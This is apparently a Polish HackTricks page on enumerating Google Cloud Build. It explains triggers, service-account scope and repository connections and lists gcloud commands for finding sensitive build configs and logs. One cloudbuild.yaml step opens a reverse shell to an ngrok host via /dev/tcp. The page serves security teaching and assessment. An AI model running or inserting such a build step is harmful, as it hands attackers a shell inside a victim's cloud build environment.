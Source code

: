 # GCP - Wyliczanie usługi Cloud Build

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>

## Podstawowe informacje

Google Cloud Build to zarządzana platforma CI/CD, która **automatyzuje procesy budowania oprogramowania** i wydawania, integrując się z **repozytoriami kodu źródłowego** i obsługując szeroki zakres języków programowania. Umożliwia programistom **automatyczne budowanie, testowanie i wdrażanie kodu**, zapewniając jednocześnie elastyczność w dostosowywaniu kroków budowania i przepływów pracy.

Każdy wyzwalacz Cloud Build jest **powiązany z repozytorium Cloud lub bezpośrednio połączony z zewnętrznym repozytorium** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nie widziałem żadnego sposobu na kradzież tokena Github/Bitbucket stąd ani z Cloud Repositories, ponieważ po pobraniu repozytorium jest ono dostępne za pomocą adresu URL [https://source.cloud.google.com/](https://source.cloud.google.com/), a Github nie jest dostępny dla klienta.
{% endhint %}

### Zdarzenia

Cloud Build może zostać uruchomiony w przypadku:

* **Wprowadzenia zmian do gałęzi**: Należy określić gałąź
* **Dodania nowej etykiety**: Należy określić etykietę
* **Pull requestu**: Należy określić gałąź, która otrzymuje PR
* **Ręcznego wywołania**
* **Wiadomości Pub/Sub**: Należy określić temat
* **Zdarzenia webhook**: Będzie udostępniony adres URL HTTPS, a żądanie musi być uwierzytelnione za pomocą sekretu

### Wykonanie

Dostępne są 3 opcje:

* Plik yaml/json **określający polecenia** do wykonania. Zazwyczaj: `/cloudbuild.yaml`
* Tylko jedno, które można określić "wewnętrznie" w konsoli internetowej i w wierszu poleceń
* Najczęstsza opcja
* Dotyczy dostępu bez uwierzytelnienia
* **Dockerfile** do budowy
* **Buildpack** do budowy

### Uprawnienia SA

**Konto usługi ma zakres `cloud-platform`**, dzięki czemu może **korzystać ze wszystkich uprawnień**. Jeśli **nie jest określone żadne konto usługi** (np. podczas składania wniosku), zostanie użyte **domyślne konto usługi** `<proj-number>@cloudbuild.gserviceaccount.com`.

Domyślnie nie są udzielane żadne uprawnienia, ale jest dość łatwo je nadać:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Zatwierdzenia

Możliwe jest skonfigurowanie Cloud Build tak, aby **wymagał zatwierdzeń dla wykonania budowy** (domyślnie wyłączone).

### Połączenia i repozytoria

Połączenia można tworzyć za pomocą:

* **GitHuba**: Wyświetli monit OAuth, proszący o uprawnienia do **uzyskania tokenu Github**, który zostanie przechowywany w **Secret Managerze**.
* **GitHub Enterprise**: Poprosi o zainstalowanie **GithubApp**. Wygenerowany zostanie i przechowywany w tym projekcie token uwierzytelniający z hosta GitHub Enterprise jako sekret **Secret Manager**.
* **GitLab / Enterprise**: Należy podać token dostępu do interfejsu API i token dostępu do odczytu interfejsu API, które zostaną przechowywane w **Secret Managerze**.

Po wygenerowaniu połączenia można go użyć do **powiązania repozytoriów, do których konto Github ma dostęp**.

Ta opcja jest dostępna za pomocą przycisku:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Należy zauważyć, że repozytoria połączone za pomocą tej metody są **dostępne tylko w wyzwalaczach korzystających z 2. generacji**.
{% endhint %}

### Połącz repozytorium

To nie jest to samo co **`połączenie`**. Pozwala to na **różne** sposoby **uzyskania dostępu do repozytorium Github lub Bitbucket**, ale **nie generuje obiektu połączenia, ale generuje obiekt repozytorium (1. generacji).**

Ta opcja jest dostępna za pomocą przycisku:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Przechowywanie

Czasami Cloud Build **generuje nowe miejsce przechowywania plików dla wyzwalacza**. Dzieje się tak na przykład w przykładzie, który oferuje GCP z:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Uzyskaj dostęp do powłoki
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Wyliczanie

Możesz znaleźć **wrażliwe informacje w konfiguracjach i dziennikach budowy**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacja uprawnień

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Nieuwierzytelniony dostęp

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Po eksploatacji

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
